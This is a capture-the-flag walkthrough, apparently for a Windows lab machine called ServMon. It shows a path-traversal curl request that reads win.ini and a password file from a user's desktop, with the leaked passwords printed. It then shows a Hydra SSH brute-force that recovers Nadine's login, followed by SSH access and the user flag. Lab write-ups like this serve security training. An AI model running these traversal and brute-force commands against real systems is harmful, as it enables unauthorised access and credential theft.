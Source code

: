 ```
```

Testing file taversal:
```Console
$ curl http://10.129.240.129/../../../../../../../../../../../../windows/win.ini --path-as-is
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Try to use it to get the password file left on Nathan's desktop, per Nadine's note
```
╰─ curl http://10.129.240.129/../../../../../../../../../../../../users/Nathan/Desktop/Passwords.txt --path-as-is
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Bruteforce SSH with Hydra
```Console
$ hydra -L users.txt -P passwords.txt 10.129.240.129 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-20 19:40:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:2/p:7), ~1 try per task
[DATA] attacking ssh://10.129.240.129:22/
[22][ssh] host: 10.129.240.129   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-20 19:40:37
```
Retrieved credentials:
login: Nadine
password: L1k3B1gBut7s@W0rk

SSH into the machine.

```Console
nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```

Grabbed `user.txt`
Flag: cda\-------~[takeAbreath]~-------

